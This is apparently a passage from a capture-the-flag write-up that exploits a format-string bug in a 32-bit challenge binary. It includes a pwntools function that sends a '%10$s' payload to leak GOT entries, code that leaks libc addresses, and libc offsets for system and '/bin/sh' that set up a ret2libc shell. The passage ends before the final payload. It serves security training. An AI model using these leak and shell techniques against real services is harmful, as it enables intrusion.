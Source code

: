 #### python function to leck data by input address

    def leck_by_address(address):
    	global sh
    	sh.recvuntil('guess?\n')
    	sh.sendline(guess_num)
    	sh.recvuntil('\nName? ')
    	payload = p(0x2531302473)#char('%10$s')
    	payload += p(0)*3
    	payload += p(0)*4
    	payload += p32(address)
    	sh.sendline(payload)
    	sh.recvuntil('Congrats: ')
    	data = sh.recv(4)
    	sh.recvuntil('\n\n')
    	data = u32(data)
    	return data

So, we can find address of `__libc_start_main` and `gets` function

    # find address of __libc_start_main
    addr___libc_start_main = leck_by_address(GOT + 0x24)
    print(hex(addr___libc_start_main))
    
    # find address of gets
    addr_gets = leck_by_address(GOT + 0x10)
    print(hex(addr_gets))

## python: find address of `__libc_start_main` and `gets` function
Do the following code:

![addr of functions in got.png][14]

## find libc version and address of `system` and `str_bin_sh`

> https://libc.blukat.me/

Do libc database search

![libc database search.png][15]

So, the libc of remote server is libc6-i386_2.27-3ubuntu1.2_amd64

    offset___libc_start_main = 0x018da0
    offset_system = 0x03cd80
    offset_str_bin_sh = 0x17bb8f

Given `addr___libc_start_main` and `offset___libc_start_main`, we can find the base address of libc, and, then, find `addr_system` and `addr_str_bin_sh`


  [1]: https://frc6.com/usr/uploads/2020/10/2971545081.zip
  [2]: https://frc6.com/usr/uploads/2020/10/4108005776.png
  [3]: https://frc6.com/usr/uploads/2020/10/3723486194.png
  [4]: https://frc6.com/usr/uploads/2020/10/2670320421.png
  [5]: https://frc6.com/usr/uploads/2020/10/2349705066.png
  [6]: https://frc6.com/usr/uploads/2020/10/2446962559.png
  [7]: https://frc6.com/usr/uploads/2020/10/652770218.png
  [8]: https://frc6.com/usr/uploads/2020/10/1411080372.png
  [9]: https://frc6.com/usr/uploads/2020/10/3912975445.png
  [10]: https://frc6.com/usr/uploads/2020/10/1268743115.png
  [11]: https://frc6.com/usr/uploads/2020/10/2294887826.png
  [12]: https://frc6.com/usr/uploads/2020/10/2816564190.png
  [13]: https://frc6.com/usr/uploads/2020/10/532307689.png
  [14]: https://frc6.com/usr/uploads/2020/10/215960980.png
  [15]: https://frc6.com/usr/uploads/2020/10/666389066.png
  [16]: https://frc6.com/usr/uploads/2020/10/1084771796.png